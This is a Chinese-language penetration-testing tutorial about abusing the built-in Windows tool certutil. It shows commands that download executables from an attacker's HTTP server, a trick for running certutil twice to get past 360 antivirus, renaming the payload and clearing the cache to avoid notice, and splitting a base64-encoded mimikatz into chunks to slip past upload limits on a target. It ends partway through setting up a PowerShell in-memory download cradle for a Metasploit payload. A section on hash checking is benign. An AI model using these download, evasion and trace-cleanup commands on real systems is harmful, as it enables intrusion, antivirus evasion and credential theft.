# 关于 certutil 的探究 - 先知社区

关于 certutil 的探究


# 何为 certutil

`certutil.exe` 是一个合法 Windows 文件，用于管理 Windows 证书的程序。

微软官方是这样对它解释的：

> Certutil.exe 是一个命令行程序，作为证书服务的一部分安装。您可以使用 Certutil.exe 转储和显示证书颁发机构（CA）配置信息，配置证书服务，备份和还原 CA 组件以及验证证书，密钥对和证书链。

但是此合法 Windows 服务现已被广泛滥用于恶意用途。

渗透中主要利用其 `下载`、`编码`、`解码`、`替代数据流` 等功能。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152034-83510822-ca85-1.png)

这里我首先在命令行用`certutil -?`查看一下`certutil`所有的参数，这里只截图了一部分，接下来就总结一下最常用的几个关于`certutil`在内网渗透中的应用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152036-849df9a6-ca85-1.png)

# certutil 下载文件

一般我最常使用的`certutil`的功能就是在 cmd 环境下下载文件，因为`certutil`是 windows 自带的 exe，所以在使用的时候会比其他 exe 或者 vbs 更加方便。但是因为在下载文件的过程中也会创建进程，所以也遭到了各大杀软的拦截。

一般使用`certutil`下载文件的命令为

```plain
certutil -urlcache -split -f http://ip/artifact.exe
```

这里介绍一下参数

*   `-f`  
    覆盖现有文件。  
    有值的命令行选项。后面跟要下载的文件 url。
*   `-split`  
    保存到文件。  
    无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。
*   `-URLCache`  
    显示或删除 URL 缓存条目。  
    无值的命令行选项。  
    （certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）

这里我在本地搭建一个 http 服务器，然后在配置了 360 的虚拟机 cmd 下进行下载

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152037-853a2a74-ca85-1.png)

这里我为了更好的还原环境，先与虚拟机建立 ipc 连接后用 psexec 得到了命令行的 cmd 环境

这里我用常规的命令进行下载 exe 文件的操作遭到了 av 的拦截

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152040-86eef660-ca85-1.png)

如果超时没有操作的话就会显示拒绝访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152041-87996a5a-ca85-1.png)

这里有两种方法对杀软进行`certutil`下载绕过，本质都是执行两次`certutil`

第一种方法是先执行一个单独的`certutil`，然后再执行下载 exe 的命令，可以看到这里已经能够成功下载

```plain
certutil

certutil -urlcache -split -f http://ip/artifact.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152043-888ba748-ca85-1.png)

另外一种方法就是使用 windows 自带的分隔符`&`和`|`，本质上跟第一种方法一样，相当于执行了两次`certutil`

```plain
certutil & certutil -urlcache -split -f http://ip/artifact.exe

certutil | certutil -urlcache -split -f http://ip/artifact.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152045-89ab7f36-ca85-1.png)

这里也可以进行文件的重命名，如果你觉得这个文件名太过于明显容易被管理员发现就可以在下载的时候使用自己设置的名字生成 exe

```plain
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe nice.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152047-8ae9c4ca-ca85-1.png)

使用`certutil`下载文件有个弊端就是会产生缓存文件，用如下命令查看：

```plain
certutil -urlcache *
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152049-8c001e0e-ca85-1.png)

执行删除缓存

```plain
certutil -urlcache * delete
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152052-8ddf1d7e-ca85-1.png)

这里如果嫌麻烦的话可以在下载文件的时候加上一个`delete`参数，这样就省去了后面再来清理缓存的麻烦

```plain
certutil & certutil -urlcache -split -f http://172.20.10.4:8000/artifact.exe delete
```

# certutil base64 加解密

之前在实战中就碰到过需要进行内网穿透的时候，代理软件上传不到靶机的情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152053-8e63f40e-ca85-1.png)

这里我上传图片测试能够上传成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152054-8ed30c4a-ca85-1.png)

本地也能够下载下来，但是就是到靶机上下载不下来，这里我判断应该是有 av 对上传文件大小进行了限制。这时候就可以使用`certutil`的`encode`和`decode`进行加解密。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152055-8f7e2f58-ca85-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152056-9018e1f6-ca85-1.png)

`certutil`在内网渗透中进行 base64 编码是比较常用的。我们知道在内网中需要用到内网代理，一般都会用到 nps 或者 frp，但是如果碰到有杀软限制上传文件大小的情况，这时候我们就可以使用先用 encode 编码分块上传再使用 decode 解密。

使用`encode`进行 base64 编码，然而大小还变大了，这里就可以考虑分成多块传输后再进行整合

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152057-90c9d344-ca85-1.png)

这里我查看了一下生成的`mimikatz.txt`有 2.7w 行，所以这里我将其拆分为三块，这里顺便说一下快速选择大文件的指定行的操作

在 notepad++ 编辑里面点击`开始/结束选择`，光标会定位到第一行

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152058-9174e43c-ca85-1.png)

再使用`ctrl + g`切换到行定位，选择要选中的行，因为这里我拆分成 3 块，所以这里我选择的是第 10000 行

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152059-91ed8dce-ca85-1.png)

再到编辑里面点一下`开始/结束选择`即可选中

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152100-928afc94-ca85-1.png)

这里我把`mimikatz.txt`拆分成了三个 txt 进行上传

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152101-92f7182a-ca85-1.png)

上传到靶机的 C 盘目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152101-936f7644-ca85-1.png)

这里先把 3 个 txt 合并为一个 txt`mimikatz.txt`

```plain
copy c:\*txt c:\mimikatz.txt    //把 c 盘根目录下的所有 txt 合并为 mimikatz.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152102-94073f10-ca85-1.png)

然后再使用`certutil`的`-decode`参数进行解密，生成`mimikatz.exe`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152104-94de226e-ca85-1.png)

运行一下看看已经合并成功了

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152105-95c0508a-ca85-1.png)

# certutil 校验 hash 值

有些时候官方网站的软件因为一些原因下架的情况下，我们就只能从一些非官方网站下载，而官方通常会把软件的 hash 值（一般是 SHA256）公布出来，这时候我们就可以用 certutil 校验 hash 值的功能来检验一个软件是否被其他人修改过。拿原始软件的 hash 值和现在软件的 hash 进行比对，使用 certutil 获取 hash 值

```plain
certutil -hashfile mimikatz.exe MD5 //检验 MD5

certutil -hashfile mimikatz.exe SHA1 //检验 SHA1

certutil -hashfile mimikatz.exe SHA256 //检验 SHA256
```

这里比较上传前后 mimikatz.exe 的 MD5 值

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152106-965a9280-ca85-1.png)

# certutil 配合 powershell 内存加载

这里我在本地实验因为环境变量的原因报错，之前在虚拟机实验的时候又忘记截图了，这里还是粗略的写一下大致实现过程

首先修改 powershell 策略为可执行脚本

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152107-96f3d710-ca85-1.png)

下载 powershell 混淆框架并执行

```plain
Import-Module .\Invoke-CradleCrafter.ps1Invoke-CradleCrafter
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152108-978ddcf2-ca85-1.png)

使用 msf 生成一个 payload，在本地起一个 http 服务器，放到 http 服务器的目录下

[](https://xzfile.aliyuncs.com/media/upload/picture/20210611152109-984ad17c-ca85-1.png)

设置 url 为 http 服务器目录

```plain
set URL http://172.20.10.4:8000/key.txt
```

​ [](https://xzfile.aliyuncs.com/media/upload/picture/20210611152110-98d678ee-ca85-1.png)

使用以下几个命令进行初始化

```plain
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
